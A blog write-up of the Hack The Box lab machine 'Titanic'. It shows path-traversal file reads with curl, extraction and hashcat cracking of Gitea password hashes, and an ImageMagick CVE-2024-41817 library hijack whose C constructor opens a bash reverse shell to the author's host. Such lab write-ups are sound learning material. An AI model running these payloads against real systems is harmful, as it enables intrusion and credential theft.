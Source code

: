 ```yaml
---
layout: post
title: "Titanic"
date: 2025-06-21
categories: [htb, easy]
provider: htb
machine: titanic
retired: true
---
```


I think this was the fastest user flag I've got so far, but root took me a while. I also wonder if I got the foothold in the intended way. Most importantly, one of the lessons learned with another (still active) box was to do my CVE research more breadth-first instead of going deep on the first option... and I probably over-compensated for this one. Let's go through it:

<div class="attack-chain">
  {% include attack-step.html title="Test web app" description="Identified arbitrary file read vulnerability via path traversal" type="enum" %}
  {% include attack-step.html title="Enumerate web server" description="Discovered `dev` subdomain by virtual host bruteforce, hosting Gitea instance" type="enum" %}
  {% include attack-step.html title="Exploit file read vulnerability" description="Extracted Gitea configuration and database files" type="attack" %}
  {% include attack-step.html title="Foothold" description="Cracked `developer`'s password from Gitea DB and gained SSH access" type="foothold" %}
  {% include attack-step.html title="Enumerate filesystem" description="Found script run frequently by `root`, invoking ImageMagick" type="enum" %}
  {% include attack-step.html title="Privilege escalation" description="Exploited ImageMagick CVE-2024-41817, hijacking LD_LIBRARY_PATH, to gain reverse shell as `root`" type="root" %}
</div>

## Glitch string quartet music on
These Linux boxes usually start the same way, a quick `nmap` scan showing SSH & HTTP only, and the full TCP scan confirming it later on:
```
$ sudo nmap -p- -sV 10.10.11.55 -vv -oA full-tcp
<SNIP>
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52 
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Logistics (`/etc/hosts`) taken care of, we go have a look at the web app, which lets you book a ticket on the Titanic. I wouldn't, if I were you. But it looks like we have to, so we do, and it immediately triggers the download of a JSON file containing whatever details we provided, for example, `http://titanic.htb/download?ticket=53b1bb14-044c-4b9b-9d19-f7e17b97ad92.json`.

There's nothing interesting about the file itself and it doesn't look like it can be abused much. But every time we have an endpoint that lets us download a file by name we are compelled to just try something and see what happens... and sure enough it is vulnerable to arbitrary file read via path traversal:
```
$ curl http://titanic.htb/download?ticket=../../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
<SNIP>
developer:x:1000:1000:developer:/home/developer:/bin/bash
<SNIP>
```

\[Hacker voice\] _we're kinda in_, so this gives me my fastest user flag to date. Trying things out to see what else we can get (sadly there's no private SSH key, for example), and seeing in the response headers that we're dealing with [Werkzeug](https://github.com/pallets/werkzeug) as a web app framework, we can hope there is a `titanic.py` or `app.py` file. The latter does hit, but it doesn't tell us anything about the application that we don't already know.

Not finding much, we go back to our basic checklist, and run directory and vhost enumeration. This is how we find out about `dev.titanic.htb`:
```
$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://titanic.htb/ -H 'Host: FUZZ.titanic.htb' -fs 306-330

<SNIP>
dev                     [Status: 200, Size: 13982, Words: 1107, Lines: 276, Duration: 35ms]
<SNIP>
```

This is a [Gitea](https://about.gitea.com/) site, a source code repository system similar to Github. We can register an account, and that might have opened other cans of worms that I didn't explore. Maybe that was the intended route... But without even needing to register, we can browse the source code for the app and some docker-compose files.

One of these is for a MySQL database container and includes some credentials. I spent a bit of time (more than I wanted to due to some kind of `fail2ban`...) trying these, and some modifications of these, on SSH. No luck.

## Google-fu
Assuming these credentials were meant for later, I switched attention to the compose file for Gitea itself. The interesting thing was the volume path, `/home/developer/gitea/data/`, which I could confirm was live with the original file read vulnerability on the site, since providing existing folders to the download endpoint caused an internal server error. I spent quite a bit of time here, either on Gitea's documentation or on other random Google results, trying to figure out the names of configuration files, but more importantly the right path for any files inside that volume. I finally came across [this post by an equally confused user](https://forum.gitea.com/t/where-is-the-custom-folder-inside-a-docker-installation/564). So the path goes `gitea/`, `data/`, ... and then `gitea/` again, for whatever reason. From there I could finally find what I was looking for, like the app's configuration file, which pointed us to something valuable:
```
$ curl http://titanic.htb/download?ticket=../../../../../home/developer/gitea/data/gitea/conf/app.ini
APP_NAME = Gitea: Git with a cup of tea

<SNIP>

[database]
PATH = /data/gitea/gitea.db
DB_TYPE = sqlite3
<SNIP>
```

Using the same technique to get the file, we go straight for the credentials.
```
$ sqlite3 gitea.db       
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
<SNIP>
user
<SNIP>

sqlite> .header on
sqlite> select * from user;
<WHOA SNIP>
sqlite> select name, passwd, passwd_hash_algo, salt from user;
name|passwd|passwd_hash_algo|salt
administrator|c<REDACTED>6|pbkdf2$50000$50|2<REDACTED>b
developer|e<REDACTED>6|pbkdf2$50000$50|8<REDACTED>4
```

Hashcat's example hashes for `PBKDF2` don't provide a clear match, so I'm back googling for how to properly feed these to the fluffy hash muncher. HTB is slowly eating the world, so [one of 0xdf's write-ups](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html) for an old machine came up. It sounded awfully similar to this machine going by the description, though, and I've had enough close encounters with spoilers, so I kept looking. Someone wrote a pull-request for Hashcat to [add a gitea2hashcat.py](https://github.com/hashcat/hashcat/pull/4154) (in February, so maybe while working on this box, hah!), and despite not yet being accepted at the time of writing, the code does what it says on the tin. I made a small modification to clean up the output, ran the script to extract the hashes and let Hashcat munch on them. `developer`'s password comes up quickly (`administrator`'s doesn't, as expected, so we kill the process):
```
$ sqlite3 gitea.db 'select salt,passwd from user;' | ./gitea2hashcat.py > hashes.txt

$ hashcat hashes.txt ~/aen/rockyou.txt
<SNIP>
sha256:50000:i<REDACTED>=:5<REDACTED>=:<REDACTED>
```

We _finally_ have a foothold. Euh, I mean, \[hacker voice\] _we're in_. The flag was already in the pocket, so it's' time to look for a way to escalate privileges.

## Tragic hijack
Going through the privilege escalation checklist, we find that `/opt` has interesting things going on. There's a folder with the same ticket-booking application we know well at this point, and a `scripts` folder with a single such thing inside:
```
$ cat /opt/scripts/identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

This `metadata.log` in `/opt/app/static/assets/images` is owned and only writeable by `root`, and we soon realise that it's being re-written every minute, indicating that, well, the script above is being run every minute by `root`. Subverting it in some way will give us what we want.

There are a few binaries in that script that are being called without their full path, so I spent some time trying to figure out if this was exploitable by checking for common `PATH` directories where we could write. Eventually convinced that this was not the way, I started looking for CVEs in ImageMagick.

[The very first one I found](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8), because I looked up the exact version of the binary (7.1.1-35) as one should always do, looked promising. If I had _just tried it_, it would have just worked. But since I had gotten myself in rabbit holes recently for going too deeply into the first thing I'd found, I just noted it down and moved on. In a less specific search, I found out about [ImageTragick](https://imagetragick.com/), a suite of old vulnerabilities, and I think I decided this must be it because the name was great. Yes, instead of going deeply into the first thing, I went deeply into the second thing.

After a good while trying to understand why the tragic JPG files I was creating were apparently not even being processed, I remembered the original promising CVE and finally gave that a try. It exploits an empty `LD_LIBRARY_PATH`  environment variable, so if we place a malicious library file in the `scripts` directory, it will be loaded when `/usr/bin/magick` is executed. We'll make it maliciously connect back to us:
```
$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.114/8888 0>&1'");
    exit(0);
}
EOF
```

 Once the minute passes and `identify_images.sh` runs, we get our root shell:
```
$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.10.14.114] from (UNKNOWN) [10.10.11.55] 33236
bash: cannot set terminal process group (45494): Inappropriate ioctl for device
bash: no job control in this shell
root@titanic:/opt/app/static/assets/images# whoami
whoami
root
```

## Roll the credits
- Sometimes you find the information you need in the weirdest places. I'm not sure LLMs can figure that out, so I'm glad I'm an old Googler.
- Machines are getting retired in an awkward order, but this was not the first time I fumbled my CVE research. I can do better.
- As always, for reading this far, you're a champ.